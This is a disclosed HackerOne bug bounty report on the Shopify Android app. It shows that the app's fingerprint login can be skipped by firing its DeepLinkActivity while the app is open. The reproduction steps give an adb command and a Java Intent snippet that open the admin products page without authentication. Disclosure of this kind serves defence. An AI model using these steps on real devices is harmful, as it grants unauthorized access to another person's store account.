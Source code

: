 # Bypass of biometrics security functionality is possible in Android application (com.shopify.mobile)

## Report Details
- **Report ID**: 637194
- **URL**: https://hackerone.com/reports/637194
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-07-07T15:03:49.294Z
- **Disclosed**: 2019-08-14T13:08:47.279Z

## Reporter
- **Username**: tiago-danin
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
# Summary
Shopify Android App has an option to sign in to the app using fingerprint. But if the application was open and someone triggers a "deeplink", authentication is no longer required.

## Step to Reproduce
{F523700}
Link: [Shopify Help Center - Topics - Products](https://help.shopify.com/en/manual/products)

NOTE¹: The application must be **open** when triggered `com.shopify.mobile.lib.app.DeepLinkActivity`.
NOTE²: It is also possible via ADB and Java (Android App):
`adb shell am start -n com.shopify.mobile/com.shopify.mobile.lib.app.DeepLinkActivity -d 'https://www.shopify.com/admin/products'`
```java
Intent intent = new Intent();
intent.setClassName("com.shopify.mobile", "com.shopify.mobile.lib.app.DeepLinkActivity");
intent.setData(Uri.parse("https://www.shopify.com/admin/products")); 
startActivity(intent);
```

My environment information:
{F523698} {F523699}

## Impact

Unauthorized access to use the application.

## Attachments
- Screenshot_2019-07-07-11-07-23-622_com.miui.securitycenter.png
- Screenshot_2019-07-07-11-07-39-629_com.android.settings.png
- Screenrecorder-2019-07-07-10-39-35-272.mp4
